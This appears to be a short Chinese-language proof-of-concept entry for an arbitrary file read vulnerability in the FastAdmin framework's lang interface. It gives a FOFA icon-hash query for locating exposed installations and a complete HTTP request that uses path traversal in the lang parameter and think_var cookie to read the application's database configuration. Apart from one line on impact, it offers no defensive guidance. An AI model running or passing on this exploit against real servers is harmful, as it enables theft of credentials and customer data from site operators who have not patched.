 ## Fastadmin框架存在任意文件读取漏洞

Fastadmin框架 lang接口处存在任意文件读取漏洞，恶意攻击者可能利用该漏洞读取服务器上的敏感文件，例如客户记录、财务数据或源代码，导致数据泄露。

## fofa

```
icon_hash="-1036943727"
```
![image](https://github.com/user-attachments/assets/bce7e0fe-94f6-49f5-9ebd-ee36a934991e)

## poc

```
GET /index/ajax/lang?lang=..//..//application/database HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Cookie: think_var=..%2F%2F..%2F%2Fapplication%2Fdatabase
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
```

![image-20240616143331144](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406161433252.png)
